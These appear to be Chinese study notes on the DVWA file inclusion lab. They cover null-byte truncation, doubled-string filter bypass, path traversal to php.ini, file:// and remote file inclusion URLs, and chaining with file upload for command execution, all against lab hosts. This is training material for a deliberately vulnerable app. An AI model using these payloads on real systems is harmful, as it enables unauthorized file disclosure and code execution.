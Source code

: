 ### 参考资料

[DVWA-1.9全级别教程之File Inclusion](https://www.freebuf.com/articles/web/119150.html)

## dvwa 文件包含

**php 文件包含有一个解析漏洞，它不会识别是不是真正的php程序，也就是说只要你包含了，它都当PHP来解析，所以图片马就是图片中有代码，这样的道理还会有zip马等等**


php版本小于5.3.24的服务器中，可以在文件名中使用%00进行截断，也就是说文件名中%00后的内容不会被识别

也就是说```php.ini```和```php.ini%0012.php``` 是等价的。

使用%00截断可以绕过某些过滤规则，例如要求page参数的后缀必须为php，这时链接A会读取失败，而链接B可以绕过规则成功读取。




1.本地文件包含

绝对路径

相对路径

str_replace函数是极其不安全的，因为可以使用双写绕过替换规则

例如```page=hthttp://tp://192.168.5.12/phpinfo.txt```时，str_replace函数会将```http://删除，于是page=http://192.168.5.12/phpinfo.txt```，成功执行远程命令。

因为替换的只是“../”、“..\”，所以对采用绝对路径的方式包含文件是不会受到任何限制的。

```http://192.168.255.151:8081/DVWA-master/vulnerabilities/fi/page=…/./…/./…/./…/./…/./…/./…/./…/./…/./…/./xampp/htdocs/dvwa/php.ini```

```http://192.168.153.130/dvwa/vulnerabilities/fi/page=C:/xampp/htdocs/dvwa/php.ini```

file协议包含：

```http://localhost:808/DVWA-master/vulnerabilities/fi/?page=file:///E:/software/phpstudy/WWW/phpinfo.php```

至于执行任意命令，需要配合文件上传漏洞利用。首先需要上传一个内容为php的文件，然后再利用file协议去包含上传文件（需要知道上传文件的绝对路径），从而实现任意命令执行。

2.远程文件包含

allow\_url\_fopen与allow\_url\_include

```http://192.168.255.151:8081/DVWA-master/vulnerabilities/fi/?page=http://192.168.0.103:808/phpinfo.php```



Impossible级别的代码使用了白名单机制进行防护